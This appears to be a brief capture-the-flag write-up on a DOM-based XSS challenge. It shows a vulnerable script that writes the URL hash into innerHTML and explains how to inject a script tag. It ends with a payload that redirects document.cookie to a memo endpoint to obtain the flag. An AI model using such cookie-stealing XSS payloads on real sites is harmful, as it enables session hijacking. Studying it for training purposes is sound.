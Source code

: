 # XSS-DOM

At first, we can see that there is an serious xss vuln in the /vuln page

```
<script nonce={{ nonce }}>
    window.addEventListener("load", function() {
      var name_elem = document.getElementById("name");
      name_elem.innerHTML = `${location.hash.slice(1)} is my name !`;
    });
 </script>
```

You can create a script with an id "name" and insert a code after the tag. The malicious code will automatically execute

```
<script id="name">
alert(123);
</script>
```

So we only need to inject this payload to get the cookie that contain the flag

Before the #: <script id= "name"></script>
After the #: location='/memo?memo='+document.cookie//

You can find the flag on your own
